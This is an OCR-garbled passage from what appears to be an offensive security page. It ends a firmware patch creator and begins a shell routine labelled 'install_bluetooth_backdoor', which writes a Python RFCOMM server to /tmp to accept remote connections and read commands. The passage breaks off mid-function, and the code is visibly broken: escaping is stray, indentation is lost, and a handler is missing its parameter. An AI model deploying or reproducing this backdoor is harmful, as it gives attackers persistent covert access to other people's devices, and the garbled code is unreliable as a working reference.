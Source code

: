     with open('firmware\_patch.bin', 'wb') as f:  
        f.write(patch)  
        
    print('Firmware patch created')

create_firmware_patch()\
"\
}

### **Persistence Mechanisms**

#### **Bluetooth Service Backdoor**

\# Install persistent Bluetooth backdoor\
install_bluetooth_backdoor() {\
echo "Installing Bluetooth persistence mechanism..."

    \# Step 1: Create backdoor service  
    cat \> /tmp/bt\_backdoor.py \<\< 'EOF'  

#!/usr/bin/env python3\
import bluetooth\
import subprocess\
import threading\
import time

class BluetoothBackdoor:\
def \_\_init\_\_(self, channel=22):\
self.channel = channel\
self.server_socket = None

    def start\_server(self):  
        self.server\_socket \= bluetooth.BluetoothSocket(bluetooth.RFCOMM)  
        self.server\_socket.bind(("", self.channel))  
        self.server\_socket.listen(1)  
            
        print(f"Bluetooth backdoor listening on channel {self.channel}")  
            
        while True:  
            try:  
                client\_socket, address \= self.server\_socket.accept()  
                print(f"Connection from {address}")  
                    
                \# Handle client in separate thread  
                client\_thread \= threading.Thread(  
                    target=self.handle\_client,  
                    args=(client\_socket,)  
                )  
                client\_thread.daemon \= True  
                client\_thread.start()  
                    
            except Exception as e:  
                print(f"Server error: {e}")  
                time.sleep(5)  
        
    def handle\_client(self):  
        try:  
            while True:  
                data \= client\_socket.recv(1024).decode('utf-8').strip()  
                if not data:  
                    break  
                    